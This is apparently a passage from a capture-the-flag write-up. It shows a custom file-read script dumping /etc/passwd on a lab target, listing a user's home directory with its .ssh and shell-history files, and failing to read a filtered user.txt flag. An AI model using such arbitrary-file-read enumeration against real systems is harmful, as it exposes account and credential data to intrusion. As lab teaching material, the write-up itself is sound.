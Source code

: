 Here is some basic enumeration with the script:
```
Enter the absolute path to a file (with f:<file>) or directory (with d:<dir>): f:/etc/passwd

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
```
Enter the absolute path to a file (with f:<file>) or directory (with d:<dir>): d:/home
.
..
nobody
```

```
Enter the absolute path to a file (with f:<file>) or directory (with d:<dir>): d:/home/nobody
.
..
.ash_history
.ssh
.viminfo
user.txt
```

```
# The PHP script filters out user.txt, so we will have to find another mechanism to get the user flag.
Enter the absolute path to a file (with f:<file>) or directory (with d:<dir>): f:/home/nobody/user.txt
False
```
